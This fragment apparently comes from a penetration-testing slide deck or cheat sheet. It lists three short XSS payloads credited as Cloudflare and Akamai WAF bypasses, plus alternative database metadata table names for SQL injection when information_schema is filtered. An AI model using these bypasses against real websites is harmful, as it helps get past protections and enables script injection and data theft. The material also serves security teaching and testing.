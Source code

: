 ```xml
<svg/onload=prompt(/XSS/)>
```

```html
<video onnull=null onmouseover=confirm(1)>
```
*Source: Cloudflare WAF Bypass by [Bohdan Korzhynskyi](https://twitter.com/bohdansec)*

```html
<dETAILS open onToGgle=a=prompt,a() x>
```
*Source: Akamai WAF Bypass found by [@s0md3v](https://twitter.com/s0md3v/)*

---

# Alternative Keywords

Instead of `information_schema.tables`, `all_tables`, `sys.sysobjects` ...

Alternatives table names:
 - `information_schema.table_constraints`
 - `mysql.innodb_table_stats`
 - `dbo.__MigrationHistory`
 - `ALL_TAB_STATISTICS`




---
![bg left:35%](images/letters-1834501_1920.jpg)
